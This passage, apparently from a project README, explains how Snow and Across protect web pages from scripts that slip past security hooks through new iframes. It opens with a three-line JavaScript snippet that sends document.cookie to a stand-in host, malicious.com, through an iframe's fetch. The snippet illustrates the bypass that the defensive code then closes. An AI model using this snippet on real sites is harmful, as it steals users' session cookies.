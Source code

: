 ```javascript
const ifr = document.createElement('iframe');
document.head.appendChild(ifr);
ifr.contentWindow.fetch.call(top, 'https://malicious.com/steal/cookies?data=' + document.cookie);
```

**By granting the defender the very first right of execution on every new iframe that 
comes to life within the web app, [Snow ❄️](https://github.com/lavamoat/snow) comes to solve exactly that.**

So if security vendors used to hook fetch as demonstrated above, with Snow you can now apply that code to every new iframe that comes to life within the app:

```javascript
const snow = require('@weizman/snow');
snow((win) => {
    const realFetch = win.fetch;
    win.fetch = function(arg1, arg2, arg3) {
        console.log('fetch activity logged, might be an attacker', arg1, arg2, arg3);
        return realFetch.call(this, arg1, arg2, arg3);
    };
});
```

Snow is a security driven project - it aspires to cover all techniques there are to creating new iframes, and it makes sure its
internal functionality is secure by calling sensitive operations via `Securely` (read below).

Snow aspires to set a new standart hermatic solution to nested ownership of windows in a webpage. Therefore, Snow is very useful
to a lot of other purposes, in and outside of the security field.

You can build in browser capabillities and tools and use Snow to eliminate the possibilites to bypass such tools by leavreging new realms.
Across is an excellent example to that.

> *To dive into Snow and learn more about this, its source code, how to install and use, how and why it works and designed*
> *the way it is and to see a live demonstration of how it works refer to the resources [listed above](#snow-%EF%B8%8F)*

### [Across ↔](https://github.com/lavamoat/across)

Across specifically is a new technology (also security related) that is a bit bigger than the supply chain attacks problem, but could not have been
created without leaning on Snow.

**In order to unlock the ability for two scripts within a webpage to communicate with each other securly based on their origin, [Across ↔](https://github.com/lavamoat/across) aspires to establish a way to do so**

In other words, with Across script `https://x.com/a.js` can share information with `https://y.com/b.js` and stay assured that this information:

* really did come from the sender script and not any other entity.
* was not tampered by any other entity.
* was not read by any other entity.
